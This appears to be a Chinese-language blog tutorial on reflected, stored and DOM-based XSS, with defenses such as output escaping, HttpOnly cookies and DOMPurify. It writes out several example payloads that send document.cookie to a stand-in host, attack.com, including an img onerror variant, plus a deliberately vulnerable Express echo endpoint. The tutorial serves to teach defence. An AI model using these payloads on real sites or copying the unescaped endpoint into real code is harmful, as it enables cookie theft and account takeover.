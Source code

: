 ```yaml
---
title: 什么是 XSS 攻击？
date: 2020-11-20 20:39:27
sidebar: auto
tags:
  - xss
  - 浏览器安全
categories:
  - 浏览器
---
```


::: details 为什么 React 元素有一个 `$$typeof` 属性？

目的是为了防止 XSS 攻击。因为 Synbol 无法被序列化，所以 React 可以通过有没有 `$$typeof` 属性来断出当前的 element 对象是从数据库来的还是自己生成的。

如果没有 `$$typeof` 这个属性，react 会拒绝处理该元素。

:::

:::details 快速预览

反射型 XSS 攻击的手段就是诱导用户点击，这种攻击是一次性的，用户点击就中招，不点就没事，危害性不如存储型的大，但是小白用户很容易被盗号。

存储型 XSS 攻击范围广，受害面积大，且不容易及时发现和排查，一定要多加小心，对于用户输入的任何内容都不要完全信任，对于动态渲染的文本一定要进行转义。

DOM 型 XSS 攻击随着单页面应用普及和流行愈发常见，因为在单页面应用中 JS 经常操作 DOM，而 DOM 型 XSS 攻击就是利用了浏览器解析机制，因此很容易触发 DOM 型 XSS 攻击。不过好在大部分前端框架，例如 Vue、Angular 都内置 DOM 型 XSS 攻击的防御机制。

:::

`XSS` 也即跨站脚本攻击，攻击出现的原因一般是因为 Web 程序对**用户的输入过滤不足**导致的一种漏洞，攻击者可以把恶意的脚本代码注入到网页之中，当其他用户浏览时就会执行其中的恶意代码，对受害者产生各种攻击。XSS 一般分为三种类型：

**反射型**、**存储型**、**DOM 型**

## 反射型（url）

反射型 XSS 攻击的恶意脚本并没有被存储到后端数据库中，而是诱导用户点击某个精心拼接的恶意链接，从而达到攻击的目的。

:::: tabs

::: tab 举个例子

一个常见的场景是用户在某电影网站搜索，假如请求地址是：

```js
https://xxx.com/movies?q=功夫熊猫
```

在后台返回的结果页中，会显示用户搜索的电影名，而攻击者拼接了一个极度恶意的链接：

```js
https://xxx.com/movies?q=功夫熊猫<script>fetch(`https://attack.com?cookie=${document.cookie}`)</script>
```

如果用户点击了这个恶意链接，cookie 立马被盗。

:::

::: tab 代码实现

```js
const express = require('express');
const app = express();

app.get('/xss', (req, res) => {
  res.send(`你的搜索内容 ${req.query.search}`);
});

app.listen(3000, () => console.log(`请打开网址 http://localhost:3000/xss?search=Kobe`));
```

打开：`http://localhost:3000/xss?search=<script>alert(document.cookie)</script>`, 可以发现 cookie 被读取了，这是多么危险的事情

:::

::::

造成反射型 XSS 攻击的原因就是服务端没过滤，所以解决方案也很简单，就是在服务器对用户输入进行过滤，过滤方案一般有很多，

```js
const tpl = req.query.q
  ? `<h3>「${encodeURIComponent(req.query.q)}」的搜索结果为：</h3>${Array(30).fill('x')}`
  : `请输入搜索的电影`;
```

还有一种方式是写一个函数替换掉那些 `<`、`&` 等特殊字符：

```js
function encodeHTML(str) {
  return str
    .replace(/&/g, '&amp;')
    .replace(/"/g, '&quot;')
    .replace(/'/g, '&apos;')
    .replace(/</g, '&lt;')
    .replace(/>/g, '&gt;');
}
```

另外，如果后端登录验证是基于 Cookie 的话，一定要设置其属性为 `HttpOnly`，这样攻击者无法利用 JS 脚本获取到 Cookie 了。

## 存储型（表单）

与反射型不同，存储型 XSS 攻击是指当用户的输入包含了恶意脚本，服务端转义就存储到数据库，访问页面会触发恶意脚本执行，而导致的攻击。

假如在某网站上有一篇爆款文章：`https://xxx.com/articles/1`

攻击者在文章下面发表了一篇评论，内容中包含了 script 脚本：

```bash
文章写的真棒！<script>fetch(`http://attack.com/cookies?cookie=${document.cookie}`)</script>
```

如果服务端直接把评论字符串保存到数据库了，下次只要有用户访问该文章时，包含恶意脚本的评论内容被返回，把当前用户的 cookie 发送到攻击者的服务器！

可以看到，用户的 Cookie 马上被发送到了攻击者的服务器。其实这种获取 Cookie 的方式还算小打小闹了，只要能够利用 xss 注入 script，黑客真的是可以「为所欲为」，例如黑客通过操作 DOM 的方式，分分钟把你的网站变成赌博网站、色情网站...，

可以看到，存储型 XSS 也是因为恶意代码未经转义直接被插入到响应的 HTML 里的，然后被浏览器执行导致攻击，所以解决方案也是对用户输入进行过滤，过滤方案与上面讲的反射型一致.

## DOM 型（onerror）

DOM 型 XSS 与反射型或存储型 XSS 的区别在于，DOM 型在服务器返回的网页或脚本中是看不到恶意代码的，而是在更新 DOM 树的时候触发了恶意脚本的执行。

我们来看一则模拟案例，前端开发人员未经过滤就直接把用户输入插入到 HTML 中：

```html
<input id="input" type="text" />
<button onclick="container.innerHTML = input.value">点击</button>
<p id="container"></p>
```

试想一下，如果此时用户输入了下面一段恶意脚本的话会发生什么？

```bash
<script>fetch(`https://attack.com?cookie=${document.cookie}`)</script>
```

值得庆幸的是，大部分现代浏览器都实现了 HTML5 的 [安全规范](https://developer.mozilla.org/zh-CN/docs/Web/API/Element/innerHTML)

但是这就足够安全了吗？非也，请看下面的输入：

```html
<img src="x" onerror="fetch(`http://attack.com/cookies?cookie=${document.cookie}`)" />
```

恶意脚本依然在 onerror 回调中被触发了！

这里推荐使用 [DOMPurify](https://github.com/cure53/DOMPurify) 库对用户的输入进行过滤，然后再使用 innerHTML 插入到 DOM 中。

[参考自 XSS 攻防实战](https://juejin.cn/post/6867184627393265677)
